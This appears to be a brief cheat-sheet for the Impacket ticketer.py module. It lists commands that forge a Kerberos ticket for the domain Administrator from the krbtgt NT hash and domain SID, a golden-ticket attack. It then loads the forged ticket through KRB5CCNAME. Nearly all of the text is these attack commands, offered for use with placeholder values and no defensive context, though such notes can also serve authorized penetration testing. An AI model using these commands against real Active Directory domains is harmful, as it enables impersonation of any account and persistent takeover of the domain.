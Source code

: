 # Impacket Ticketer module

### Use this module to create a ticket for a specific user you have access

 - ticketer.py -nthash HASHKRBTGT -domain-sid SID_DOMAIN_A -domain DEV Administrator

 - export KRB5CCNAME=/home/user/ticket.ccache

 - cat $KRB5CCNAME
